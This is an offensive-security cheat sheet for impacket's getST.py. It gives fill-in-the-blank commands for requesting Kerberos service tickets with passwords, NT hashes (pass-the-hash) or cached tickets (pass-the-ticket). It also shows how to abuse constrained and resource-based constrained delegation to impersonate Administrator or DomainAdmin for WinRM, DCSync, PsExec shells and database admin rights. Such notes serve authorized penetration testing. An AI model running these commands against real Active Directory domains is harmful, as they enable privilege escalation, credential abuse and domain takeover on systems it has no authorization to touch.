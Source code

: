 # getST.py (imp)

% impacket-kerberos, windows, kerberos, 88, delegation, TGS

#plateform/linux #target/remote  #cat/UTILS

## desc
```
request a Service Ticket and save it as ccache. If the account has constrained delegation (with protocol transition) privileges you will be able to use the -impersonate switch to request the ticket on behalf another user
```


## request TGS (creds)
```bash
getST.py -debug -spn <svc>/<target_fqdn> -dc-ip <dc_fqdn> <domain_fqdn>/<user>:'<password>'
```

## request TGS (pth)
```bash
getST.py -debug -spn <svc>/<target_fqdn> -hashes :<nt_hash> <domain_fqdn>/<user>
```

## request TGS (ptt)
```bash
KRB5CCNAME=<ccache> getST.py -debug -k -no-pass -spn <svc>/<target_fqdn> -dc-ip <domain_fqdn> <user>
```

#cat/ATTACK/DELEGATION 

## request Silver ticket (constrained delegation with protocol transition)
HTTP (WinRM), LDAP (DCSync), HOST (PsExec shell), MSSQLSvc (DB admin rights)
```bash
getST.py -debug -spn <svc>/<target_fqdn> -impersonate <target_user|Administrator> -dc-ip <dc_ip> <domain_fqdn>/<user>:'<password>'
```

## Silver ticket (Resource-Based Constrained Delegation S4U2self)
using the machine account TGT
```bash
KRB5CCNAME=<computer_ccache>
getST.py -debug -self -impersonate "DomainAdmin" -altservice "cifs/<target_fqdn>" -k -no-pass -dc-ip <dc_ip> <domain_fqdn>/'<computer>$' 
```
